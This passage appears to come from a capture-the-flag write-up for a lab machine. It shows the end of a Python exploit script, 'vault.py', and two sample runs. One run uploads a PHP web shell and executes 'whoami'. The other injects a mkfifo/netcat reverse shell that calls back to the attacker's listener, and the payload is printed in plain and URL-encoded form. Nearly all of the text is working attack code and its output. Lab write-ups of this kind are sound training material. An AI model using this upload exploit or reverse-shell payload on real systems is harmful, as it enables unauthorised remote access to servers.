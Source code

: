 ```python
    parser.add_argument('-m', '--mode', required=True, choices=['c', 'r'], dest='mode')
    parser.add_argument('--command', dest='command')
    parser.add_argument('--lhost', dest='lhost')
    parser.add_argument('--lport', dest='lport', default=4444, type=int)
    return parser.parse_args()

def main():
    args = set_arguments()
    if args.mode == 'c':
        exploit(args.target, args.command)
    else:
        rev_shell(args.target, args.lhost, args.lport)

    print("[+] Script finished successfully")
    sys.exit(0)

main()
```

We can execute commands individually with `-m c --command <command>`.

```bash
python3 vault.py -t 10.129.230.48 -m c --command "whoami"

[+] XgXKpx.php5 successfully uploaded!

[+] Command injected:

whoami

[+] Target URL:

http://10.129.230.48/sparklays/design/uploads/XgXKpx.php5?fc8358bcf09e4b3947d1975622a9df14=whoami

[+] Output:

www-data

[+] Script finished successfully
```

Or establish a reverse shell using the `-m r` mode.

```bash
python3 vault.py -t 10.129.230.48 -m r --lhost 10.10.14.5

[+] JuRcwi.php5 successfully uploaded!

[+] Command injected:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f

[+] Target URL:

http://10.129.230.48/sparklays/design/uploads/JuRcwi.php5?fc8358bcf09e4b3947d1975622a9df14=rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.5%204444%20%3E/tmp/f

[+] Check your Netcat listener! :D

[+] Script finished successfully
```
